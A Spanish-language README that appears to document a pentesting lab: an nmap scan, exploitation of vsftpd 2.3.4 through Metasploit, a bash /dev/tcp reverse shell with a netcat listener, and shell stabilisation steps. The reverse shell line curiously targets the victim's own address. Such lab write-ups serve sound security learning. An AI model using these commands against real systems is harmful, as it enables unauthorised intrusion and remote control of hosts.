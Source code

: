 # 🛠️ Laboratorio de Pentesting

Este repositorio documenta el uso de herramientas esenciales para realizar un análisis de seguridad, desde el escaneo de puertos hasta la explotación y persistencia en la máquina víctima.

---

## ⚙️ Herramientas utilizadas

- 🔍 [Nmap](https://nmap.org/)
- 💣 [Metasploit Framework](https://www.metasploit.com/)
- 📡 [Netcat](https://nmap.org/ncat/)

---

## 🚀 Despliegue de la máquina

Asegúrate de que la máquina víctima esté encendida y accesible en la red local.

---

## 🔎 Escaneo de Puertos con Nmap

Ejecutamos el siguiente comando para escanear todos los puertos y recopilar información de servicios:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN escaneo.txt
```

### 📌 Parámetros explicados:
nmap: Herramienta de escaneo de red.

-p-: Escanea todos los puertos (1–65535).

-sS: Escaneo SYN (sigiloso).

-sC: Scripts predeterminados.

-sV: Detección de versiones de servicios.

--min-rate 5000: Velocidad mínima de envío (paquetes/seg).

-n: Sin resolución DNS.

-Pn: No hace ping previo (asume host activo).

-vvv: Modo verbose (salida detallada).

-oN escaneo.txt: Guarda salida en archivo de texto plano.

---

## 💥 Explotación con Metasploit
Abrimos la consola de Metasploit:
``` bash
msfconsole
```

Buscamos el exploit para el servicio FTP detectado:
``` bash
search vsftpd 2.3.4
```

Seleccionamos el exploit:
``` bash
use 0
```

Mostramos las opciones disponibles:
``` bash
show options
```

Configuramos la IP de la víctima:
``` bash
set RHOST 172.17.0.2
```

Ejecutamos el exploit:
``` bash
run
```

---

## 🪝 Persistencia con Reverse Shell
Generamos una reverse shell en revshsells.com y la ejecutamos:
``` bash
bash -c "sh -i >& /dev/tcp/172.17.0.2/443 0>&1"
```

Mientras tanto, en la máquina atacante, escuchamos con Netcat:
``` bash
nc -nlvp 443
```

⚠️ Al inicio, comandos como Ctrl + L no funcionan y Ctrl + C puede cerrar la sesión.


### 🛠️ Para estabilizar la shell:
``` bash
script /dev/null -c bash
# Luego presiona Ctrl + Z y ejecuta lo siguiente:
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Después de esto, podrás usar combinaciones como Ctrl + C sin perder la conexión.

---

## 📁 Resultados
- 📝 Escaneo: escaneo.txt
- 🧪 Explotación: acceso con Metasploit
- 🔄 Shell persistente y funcional

---

## 👤 Autor
- Jorge Garrido
- Pentester y Hacker Ético
- 📍 Madrid, España
